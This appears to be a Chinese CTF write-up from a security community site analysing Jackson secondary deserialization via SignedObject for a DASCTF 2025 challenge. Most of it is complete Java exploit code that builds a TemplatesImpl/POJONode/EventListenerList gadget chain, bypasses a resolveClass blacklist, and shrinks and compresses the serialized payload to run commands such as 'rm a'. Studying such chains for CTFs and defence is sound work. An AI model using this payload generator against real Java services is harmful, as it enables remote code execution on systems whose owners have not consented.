# jackson的二次反序列化分析-先知社区

> **来源**: https://xz.aliyun.com/news/18304  
> **文章ID**: 18304

---

# jackson的二次反序列化分析

jackson 调用 getter 方法这条链子在平时 CTF 比赛中用的非常多，一个是因为 spring boot 框架自带 jackson 依赖，二是它反序列化没有黑名单。而一般遇到重写了 resolveClass 方法的黑名单，常用的是 jackson+SignedObject 二次反序列化进行绕过。

## SignedObject 二次反序列化

该类是 `java.security` 下一个用于创建真实运行时对象的类，更具体地说，`SignedObject` 包含另一个 `Serializable` 对象。

先看其构造函数方法。



其参数接受一个可序列化的对象，然后又进行了一次序列化，继续看到该类的 getObject 方法，



进行了反序列化，content 是我们可以控制的。构造一个恶意的 `SignedObject` 对象。

```
KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA"); 
kpg.initialize(1024); 
KeyPair kp = kpg.generateKeyPair(); 
SignedObject signedObject = new SignedObject(恶意对象,kp.getPrivate(),Signature.getInstance("DSA"));
```

那么现在就是要看恶意对象的选择了，一般来说也就是我们被加入黑名单的反序列化链。

## jackson 调用 getter 分析

jackson 序列化会调用任意 getter 方法，这个不用多说什么，常用的是 `ObjectMapper#writeValueAsString` 方法进行序列化 bean 对象为字符串。

然后是 jackson 调用任意 getter 方法的利用链，至于前面触发 tostring 的链子选择就比较多了，

```
 POJONode#toString --> BaseJsonNode#toString --> InternalNodeMapper.nodeToString --> ObjectMapper#writeValueAsString --> 任意调用Getter
```

还是简单看一下，POJONode 中不存在有 toString 方法的实现，但是其父类的父类（BaseJsonNode）中存在，





调用了 nodeToString 方法，



调用了 `writeValueAsString` 方法进行序列化这里就会调用 getter 方法，然后剩下的就是加载恶意类进行命令执行了。需要注意的是writeValueAsString 方法序列化 bean 对象为字符串时会调用所有对象的 getter 方法。

## DASCTF 2025-再短一点点

反编译 jar 包后看到 `/deser` 路由可以反序列化，有长度限制以及重写了 resolveClass 方法存在黑名单



在 flag 路由对 /a 文件进行检测，如果没有这个文件访问 `/flag` 就会获得 flag，



再看看 resolveClass 中过滤了哪些类，有 BadAttributeValueExpException 链以及 spring aop 链的类，



依赖有 jackson 而且没有过滤 SignedObject ，可以打 jackson 的二次反序列化，这里选择通过 EventListenerList 来触发 tostring 方法，

```
Gadget
EventListenerList#readobject
POJONode#tostring
ObjectMapper#writeValueAsString
SignedObject#getObject
EventListenerList#readobject
POJONode#tostring
TemplatesImpl#getOutputProperties
······
```

构造下面 payload ，

```
import com.fasterxml.jackson.databind.node.POJONode;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import javassist.ClassPool;  
import javassist.CtClass;  
import javassist.CtConstructor;  
import javassist.CtMethod;  
import javassist.bytecode.ClassFile;  
import javassist.bytecode.ConstPool;  
import sun.misc.Unsafe;  
  
import javax.swing.event.EventListenerList;  
import javax.swing.undo.UndoManager;  
import java.io.*;  
import java.lang.reflect.Field;  
import java.security.*;  
import java.util.Base64;  
import java.util.Map;  
import java.util.Vector;  
  
public class test {  
    public static void main(String[] args)throws Exception {  
  
        ClassPool pool = ClassPool.getDefault();  
        CtClass clazz = pool.makeClass("a");  
        CtClass superClass = pool.get(AbstractTranslet.class.getName());  
        clazz.setSuperclass(superClass);  
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);  
        constructor.setBody("Runtime.getRuntime().exec("rm a");");  
        clazz.addConstructor(constructor);  
  
        byte[] minimized = clazz.toBytecode();  
        byte[][] bytes = new byte[][]{ minimized };  
        TemplatesImpl templates = (TemplatesImpl) createObjWithoutConstructor(TemplatesImpl.class);  
        setValue(templates, "_bytecodes", bytes);  
        setValue(templates, "_name", "a");  
  
        try {  
            CtClass jsonNode = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");  
            CtMethod writeReplace = jsonNode.getDeclaredMethod("writeReplace");  
            jsonNode.removeMethod(writeReplace);  
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();  
            jsonNode.toClass(classLoader, null);  
        } catch (Exception e) {  
        }  
  
        POJONode node1 = new POJONode(templates);  
        EventListenerList list1 = (EventListenerList) createObjWithoutConstructor(EventListenerList.class);  
        UndoManager manager1 = new UndoManager();  
        Vector vector1 = (Vector) getFieldValue(manager1, "edits");  
        vector1.add(node1);  
        setFieldValue(list1, "listenerList", new Object[] {Map.class, manager1 });  
  
        KeyPairGenerator keyPairGenerator = KeyPairGenerator.getInstance("DSA");  
        keyPairGenerator.initialize(1024);  
        KeyPair keyPair = keyPairGenerator.genKeyPair();  
        PrivateKey privateKey = keyPair.getPrivate();  
        Signature signature = Signature.getInstance(privateKey.getAlgorithm());  
        SignedObject signedObject = new SignedObject(list1, privateKey, signature);  
  
        POJONode node = new POJONode(signedObject);  
        EventListenerList list = (EventListenerList) createObjWithoutConstructor(EventListenerList.class);  
        UndoManager manager = new UndoManager();  
        Vector vector = (Vector) getFieldValue(manager, "edits");  
        vector.add(node);  
        setFieldValue(list, "listenerList", new Object[] {Map.class, manager });  
  
        try {  
            ByteArrayOutputStream out = new ByteArrayOutputStream();  
            ObjectOutputStream objout = new ObjectOutputStream(out);  
            objout.writeObject(list);  
            objout.close();  
            out.close();  
            byte[] ObjectBytes = out.toByteArray();  
            String base64EncodedValue = Base64.getEncoder().encodeToString(ObjectBytes);  
            System.out.println(base64EncodedValue);  
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
    }  
    public static void setValue(Object obj,String fieldName,Object value) throws Exception {  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj,value);  
    }  
    public static void setFieldValue(Object obj, String fieldName, Object value)  
            throws Exception {  
        Class<?> clazz = obj.getClass();  
        Field field = clazz.getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj, value);  
    }  
    public static Object getFieldValue(Object obj, String fieldName)  
            throws NoSuchFieldException, IllegalAccessException {  
        Class clazz = obj.getClass();  
  
        while (clazz != null) {  
            try {  
                Field field = clazz.getDeclaredField(fieldName);  
                field.setAccessible(true);  
  
                return field.get(obj);  
            } catch (Exception e) {  
                clazz = clazz.getSuperclass();  
            }  
        }  
  
        return null;  
    }  
    public static <T> T createObjWithoutConstructor(Class<T> clazz) {  
        try {  
            // 通过反射获取 Unsafe 实例  
            Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");  
            unsafeField.setAccessible(true);  
            Unsafe unsafe = (Unsafe) unsafeField.get(null);  
  
            // 使用 Unsafe 分配对象内存（不会调用构造函数）  
            return (T) unsafe.allocateInstance(clazz);  
        } catch (Exception e) {  
            throw new RuntimeException("Failed to create instance without constructor", e);  
        }  
    }  
}
```

### 减少字节码属性

这里通过 createObjWithoutConstructor 方法来实列化对象可以把对象的无关属性进行置空来减少字节长度，



对比看到利用 createObjWithoutConstructor 来获得的对象所有属性为 null，后面再通过反射把需要的属性赋上值就行了，不会影响反序列化链。



注意到题目中反序列化用了 `new InflaterInputStream`，所有我们获得的字节码还需要压缩一下，

```
import java.io.*;  
import java.util.Base64;  
import java.util.zip.Deflater;  
import java.util.zip.DeflaterOutputStream;  
  
public class zip2 {  
    public static void main(String[] args) throws Exception {  
        String input = "your base64";  
        byte[] decoded = Base64.getDecoder().decode(input);  
  
        int bestLen = Integer.MAX_VALUE;  
        String bestB64 = null;  
  
        // 三种常用策略：默认、FILTERED、HUFFMAN_ONLY  
        int[] strategies = {  
                Deflater.DEFAULT_STRATEGY,  
                Deflater.FILTERED,  
                Deflater.HUFFMAN_ONLY  
        };  
        for (int strat : strategies) {  
            Deflater def = new Deflater(Deflater.BEST_COMPRESSION);  
            def.setStrategy(strat);  
            ByteArrayOutputStream baos = new ByteArrayOutputStream(decoded.length);  
            try (DeflaterOutputStream dos = new DeflaterOutputStream(baos, def)) {  
                dos.write(decoded);  
            }  
            byte[] comp = baos.toByteArray();  
            String b64 = Base64.getEncoder().encodeToString(comp);  
            if (b64.length() < bestLen) {  
                bestLen = b64.length();  
                bestB64 = b64;  
            }  
        }  
  
        // 输出最短的那一个  
        System.out.print(bestB64);  
        // 也可以打印长度  
        System.err.println("Shortest length: " + bestLen);  
    }  
}
```

但是最后获得的结果还是太长了，问了 GPT 发现还可以将恶意类的调试信息进行删除

```
ClassFile cf = clazz.getClassFile();  
cf.removeAttribute("SourceFile");  
cf.removeAttribute("LineNumberTable");  
cf.removeAttribute("LocalVariableTable");  
cf.compact();  
```

这样确实又减少了十多个字节，不过依然杯水车薪，长度还是有 1300 多个，后面又把网上的 payload 缩短方法都看了一下，还是不满足条件。

### jackson 序列化原理缩减

上面 jackson 调用 getter 分析最后说了，writeValueAsString 方法序列化 bean 对象为字符串时会调用所有对象的 getter 方法。

那么实际上我们的二次反序列化根本不需要那么麻烦，我们可以不用通过 `SignedObject#getObject` 来触发恶意 readobject 实现利用，我只需要 `SignedObject#getObject` 方法返回个正常类就行了，比如把链子换为如下

```
Gadget
EventListenerList#readobject
POJONode#tostring
ObjectMapper#writeValueAsString
SignedObject#getObject
TemplatesImpl#getOutputProperties
······
```

这里通过 `SignedObject#getObject` 返回 TemplatesImpl 类来绕过黑名单，



然后 writeValueAsString 方法会继续序列化 TemplatesImpl 类。从而调用其 getter 方法，调用栈



最后也能触发到 `TemplatesImpl#getOutputProperties` 进行命令执行。所以最后 poc

```
import com.fasterxml.jackson.databind.node.POJONode;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import javassist.ClassPool;  
import javassist.CtClass;  
import javassist.CtConstructor;  
import javassist.CtMethod;  
import javassist.bytecode.ClassFile;  
import javassist.bytecode.ConstPool;  
import sun.misc.Unsafe;  
  
import javax.swing.event.EventListenerList;  
import javax.swing.undo.UndoManager;  
import java.io.*;  
import java.lang.reflect.Field;  
import java.security.*;  
import java.util.Base64;  
import java.util.Map;  
import java.util.Vector;  
  
public class test {  
    public static void main(String[] args)throws Exception {  
  
        ClassPool pool = ClassPool.getDefault();  
        CtClass clazz = pool.makeClass("a");  
        CtClass superClass = pool.get(AbstractTranslet.class.getName());  
        clazz.setSuperclass(superClass);  
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);  
        constructor.setBody("Runtime.getRuntime().exec("calc");");  
        clazz.addConstructor(constructor);  
  
        ClassFile cf = clazz.getClassFile();  
        cf.removeAttribute("SourceFile");  
        cf.removeAttribute("LineNumberTable");  
        cf.removeAttribute("LocalVariableTable");  
        cf.compact();  
  
        byte[] minimized = clazz.toBytecode();  
        byte[][] bytes = new byte[][]{ minimized };  
        TemplatesImpl templates = (TemplatesImpl) createObjWithoutConstructor(TemplatesImpl.class);  
        setValue(templates, "_bytecodes", bytes);  
        setValue(templates, "_name", "a");  
  
        try {  
            CtClass jsonNode = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");  
            CtMethod writeReplace = jsonNode.getDeclaredMethod("writeReplace");  
            jsonNode.removeMethod(writeReplace);  
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();  
            jsonNode.toClass(classLoader, null);  
        } catch (Exception e) {  
        }  
  
        KeyPairGenerator keyPairGenerator = KeyPairGenerator.getInstance("DSA");  
        keyPairGenerator.initialize(1024);  
        KeyPair keyPair = keyPairGenerator.genKeyPair();  
        PrivateKey privateKey = keyPair.getPrivate();  
        Signature signature = Signature.getInstance(privateKey.getAlgorithm());  
        SignedObject signedObject = new SignedObject(templates, privateKey, signature);  
  
        POJONode node = new POJONode(signedObject);  
        EventListenerList list = (EventListenerList) createObjWithoutConstructor(EventListenerList.class);  
        UndoManager manager = new UndoManager();  
        Vector vector = (Vector) getFieldValue(manager, "edits");  
        vector.add(node);  
        setFieldValue(list, "listenerList", new Object[] {Map.class, manager });  
  
        try {  
            ByteArrayOutputStream out = new ByteArrayOutputStream();  
            ObjectOutputStream objout = new ObjectOutputStream(out);  
            objout.writeObject(list);  
            objout.close();  
            out.close();  
            byte[] ObjectBytes = out.toByteArray();  
            String base64EncodedValue = Base64.getEncoder().encodeToString(ObjectBytes);  
            System.out.println(base64EncodedValue);  
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
    }  
    public static void setValue(Object obj,String fieldName,Object value) throws Exception {  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj,value);  
    }  
    public static void setFieldValue(Object obj, String fieldName, Object value)  
            throws Exception {  
        Class<?> clazz = obj.getClass();  
        Field field = clazz.getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj, value);  
    }  
    public static Object getFieldValue(Object obj, String fieldName)  
            throws NoSuchFieldException, IllegalAccessException {  
        Class clazz = obj.getClass();  
  
        while (clazz != null) {  
            try {  
                Field field = clazz.getDeclaredField(fieldName);  
                field.setAccessible(true);  
  
                return field.get(obj);  
            } catch (Exception e) {  
                clazz = clazz.getSuperclass();  
            }  
        }  
  
        return null;  
    }  
    public static <T> T createObjWithoutConstructor(Class<T> clazz) {  
        try {  
            // 通过反射获取 Unsafe 实例  
            Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");  
            unsafeField.setAccessible(true);  
            Unsafe unsafe = (Unsafe) unsafeField.get(null);  
  
            // 使用 Unsafe 分配对象内存（不会调用构造函数）  
            return (T) unsafe.allocateInstance(clazz);  
        } catch (Exception e) {  
            throw new RuntimeException("Failed to create instance without constructor", e);  
        }  
    }  
}
```

压缩后长度只有 1272



删除文件 a 访问 /flag 即可获得 flag，


